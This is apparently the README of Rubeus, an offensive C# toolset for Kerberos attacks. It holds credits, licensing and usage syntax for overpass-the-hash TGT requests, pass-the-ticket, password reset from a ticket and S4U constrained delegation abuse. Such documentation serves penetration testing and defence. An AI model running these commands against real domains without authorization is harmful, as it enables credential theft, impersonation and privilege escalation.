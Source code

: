 # Rubeus

----

Rubeus is a C# toolset for raw Kerberos interaction and abuses. It is **heavily** adapted from [Benjamin Delpy](https://twitter.com/gentilkiwi)'s [Kekeo](https://github.com/gentilkiwi/kekeo/) project (CC BY-NC-SA 4.0 license) and [Vincent LE TOUX](https://twitter.com/mysmartlogon)'s [MakeMeEnterpriseAdmin](https://github.com/vletoux/MakeMeEnterpriseAdmin) project (GPL v3.0 license). Full credit goes to Benjamin and Vincent for working out the hard components of weaponization- without their prior work this project would not exist.

Rubeus also uses a C# ASN.1 parsing/encoding library from [Thomas Pornin](https://github.com/pornin) named [DDer](https://github.com/pornin/DDer) that was released with an "MIT-like" license. Huge thanks to Thomas for his clean and stable code!

The [KerberosRequestorSecurityToken.GetRequest](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest(v=vs.110).aspx) method for Kerberoasting was contributed to PowerView by [@machosec](https://twitter.com/machosec).

[@harmj0y](https://twitter.com/harmj0y) is the primary author of this code base.

Rubeus is licensed under the BSD 3-Clause license.


## Usage

  Rubeus usage:

    Retrieve a TGT based on a user hash, optionally applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ptt] [/luid]

    Retrieve a TGT based on a user hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </rc4:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]

    Renew a TGT, optionally appling the ticket or auto-renewing the ticket up to its renew-till limit:
        Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dc:DOMAIN_CONTROLLER] [/ptt] [/autorenew]

    Reset a user's password from a supplied TGT (AoratoPw):
        Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER]

    Retrieve a service ticket for one or more SPNs, optionally applying the ticket:
        Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/dc:DOMAIN_CONTROLLER] [/ptt]

    Perform S4U constrained delegation abuse:
        Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> /impersonateuser:USER /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/ptt]
        Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] /impersonateuser:USER /msdsspn:SERVICE/SERVER [/altservice:cifs,HOST,...] [/dc:DOMAIN_CONTROLLER] [/ptt]

    Submit a TGT, optionally targeting a specific LUID (if elevated):
        Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]
